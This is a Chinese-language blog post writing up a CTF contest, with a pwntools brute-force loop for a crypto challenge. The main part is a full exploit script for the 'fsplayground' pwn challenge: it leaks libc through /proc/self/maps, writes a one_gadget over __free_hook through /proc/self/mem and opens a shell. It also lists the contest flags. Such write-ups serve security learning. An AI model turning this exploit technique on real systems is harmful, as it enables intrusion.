 ```yaml
---
title: 摸鱼之战
author: nepire
avatar: /images/title.ico
authorLink: 'https://nepire.github.io/'
authorAbout: 逐梦者
authorDesc: 逐梦者
categories: 技术
comments: true
date: 2020-08-28 15:05:30
tags:
keywords:
description:
photos:
---
```

#  摸鱼城之战
摸……钓鱼城杯和洞佬他们组了个队摸了一天鱼，快乐就完事
![](https://i.imgur.com/RKp1dHo.png)

## Crypto
### confused_flag
爆破，因为flag内的东西不是明文所以符合格式的有好几个一个个去试，最后试成功了
![](https://i.imgur.com/IecGBxV.png)

```
#flag{b09dfe78-df9e-36dd-89a1-b7efb2e19e65}
from pwn import *
for i in range(500):
    n = remote("119.3.45.222",9999)
    cip = n.recvline()[:-1]
    n.close()
    if cip[0:5]=="flag{" and cip[13]=="-" and cip[18]==cip[23]:
        print cip
```

## PWN

## fsplayground
一个文件读写系统，限制了读的文件名里包括路径不能含有flag，这里我们选择读/proc/self/maps获取libcbase然后往/proc/self/mem里free_hook的地址写onegadget一把梭
```python
#flag{910efb50faa7407b916c206217951dd0}
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
#n = process("./chall")
n = remote("119.3.111.133",6666)
elf = ELF("./chall")
libc = elf.libc

def choice(idx):
    n.recvuntil("Your choice: ")
    n.sendline(str(idx))
def fs_open(filename,idx):
    choice(1)
    n.recvuntil("Filename: ")
    n.send(filename)
    n.recvuntil("Option: ")
    n.sendline(str(idx))
def fs_close():
    choice(2)
def fs_seek(offset):
    choice(3)
    n.recvuntil("Offset: ")
    n.sendline(str(offset))
def fs_read(size):
    choice(4)
    n.recvuntil("Size: ")
    n.sendline(str(size))
def fs_write(size,content):
    choice(5)
    n.recvuntil("Size: ")
    n.sendline(str(size))
    n.recvuntil("Content: ")
    n.send(content)
def fs_exit():
    choice(6)

fs_open("/proc/self/maps",0)
fs_read(0x300)
n.recvuntil("Content: ")
codebase = int(n.recv(12),16)
print hex(codebase)
n.recvuntil("r-xp")
libcbase = int(n.recvuntil("r-xp")[-30:-18],16)
print hex(libcbase)
fs_close()
fs_open("/proc/self/mem",1)
free_hook = libcbase + libc.sym["__free_hook"]
one = libcbase + 0x4f3c2
fs_seek(free_hook)
fs_write(0x10,p64(one))

n.interactive()
```



剩下的就是赛后复现了，等有空写
